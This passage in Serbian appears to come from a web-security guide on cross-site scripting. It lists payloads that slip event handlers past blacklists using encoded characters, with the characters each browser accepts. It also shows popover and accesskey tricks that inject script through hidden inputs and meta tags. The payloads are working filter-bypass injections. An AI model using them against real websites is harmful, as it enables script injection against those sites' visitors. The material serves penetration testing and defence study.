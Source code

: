 Prvo proverite ovu stranicu ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) za korisne **"on" događajne rukovaoca**.\
U slučaju da postoji neka crna lista koja sprečava kreiranje ovih događajnih rukovaoca, možete probati sledeće obilaske:

```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```

### XSS u "Nepodložnim tagovima" (skriveni unos, link, kanonski, meta)

Sa [**ovde**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **sada je moguće zloupotrebiti skrivene unose sa:**

```html
<button popvertarget="x">Click me</button>
<input type="hidden" value="y" popover id="x" onbeforetoggle=alert(1)>
```

I u **meta tagovima**:

```html
<!-- Injection inside meta attribute-->
<meta name="apple-mobile-web-app-title" content=""Twitter popover id="newsletter" onbeforetoggle=alert(2) />
<!-- Existing target-->
<button popovertarget="newsletter">Subscribe to newsletter</button>
<div popover id="newsletter">Newsletter popup</div>
```

Od [**ovde**](https://portswigger.net/research/xss-in-hidden-input-fields): Možete izvršiti **XSS payload unutar skrivenog atributa**, pod uslovom da možete **ubediti** **žrtvu** da pritisne **kombinaciju tastera**. Na Firefox Windows/Linux kombinacija tastera je **ALT+SHIFT+X**, a na OS X-u je **CTRL+ALT+X**. Možete specificirati drugu kombinaciju tastera koristeći drugi taster u access key atributu. Evo vektora:

```markup
<input type="hidden" accesskey="X" onclick="alert(1)">
```

**XSS payload će biti nešto poput ovoga: `" accesskey="x" onclick="alert(1)" x="`**

### Bypass-ovi crne liste
